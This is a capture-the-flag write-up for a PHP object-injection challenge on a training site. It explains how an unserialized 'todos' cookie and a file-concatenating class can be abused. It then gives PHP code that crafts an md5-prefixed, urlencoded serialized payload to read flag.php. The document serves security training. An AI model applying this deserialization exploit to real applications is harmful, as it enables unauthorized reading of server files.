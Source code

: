 ## Challange
Read the file `flag.php`.
## Solution
In  `http://free.training.jinblack.it/?source` we see the source code of the program. In case the cookie `todos` is present, the content will be unserialized and rendered in the main page.

Always from the source page we can see a class called `GPLSourceBloater` which has a method `toString()` that concat the file `license.txt` with a file `source`.

If we craft a cookie in this way:
```php
class GPLSourceBloater{

  public $source="flag.php";
}

$r = new GPLSourceBloater();
$todos[] = $r;
$m = serialize($todos);
$h = md5($m);
echo $h.urlencode($m);
```
Is possible, by setting the cookie using PostMan and sending the request, to get the content of `flag.php`.

Notice that the object `$r` should be put inside an array to properly work and the cookie should be craft with the `md5` of the serialized version concatenated with the urlencoded version of the same object.

